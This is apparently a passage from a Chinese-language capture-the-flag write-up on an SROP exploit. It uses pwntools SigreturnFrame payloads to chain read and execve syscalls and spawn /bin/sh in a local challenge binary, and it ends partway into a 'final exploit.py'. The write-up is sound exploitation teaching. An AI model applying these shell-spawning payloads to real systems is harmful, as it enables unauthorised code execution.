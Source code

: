 流程->

```python=
payload2=r.send(p64(start)+p64(syscall)+bytes(read))
```

讓 payload 進來

```python=
start ->
syscall ->
read.SigreturnFrame
```

ret跳回start，讀15個byte進來

```python=
syscall
read.SigreturnFrame
```

ret到syscall，現在rax=15(call sys_rt_sigreturn)

```python=
read.SigreturnFrame
```
回復位置成read.SigreturnFrame的樣子

###### call signal.ret.execve /bin/sh 


```
execve = SigreturnFrame()
execve.rax = constants.SYS_execve
execve.rdi = leak_stack_base + 0x108 
execve.rsi = 0x0
execve.rdx = 0x0
execve.rsp = leak_stack_base 
execve.rip = syscall

payload5 = p64(start)+p64(syscall)+bytes(execve)
print(len(payload5))
payload5 += b'/bin/sh\x00'
r.send(payload5)

r.send(payload5[8:23])
```
讓剛剛設定好的 signal.ret.read /bin/sh 去被 sginal.ret.execve 讀到 

![image](https://hackmd.io/_uploads/HJ4m48NjA.png)

final exploit.py
```python3=
from pwn import *
import time

context.arch='amd64'

r=process('./chal')

#DEBUG=raw_input('Debug:y/n'+'\n')
DEBUG=input('Debug:y/n'+'\n')

if DEBUG=="y":
    context.log_level = 'debug'
    context.arch = 'amd64'
    context.os = 'linux'
    context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
def p():
    gdb.attach(r)
```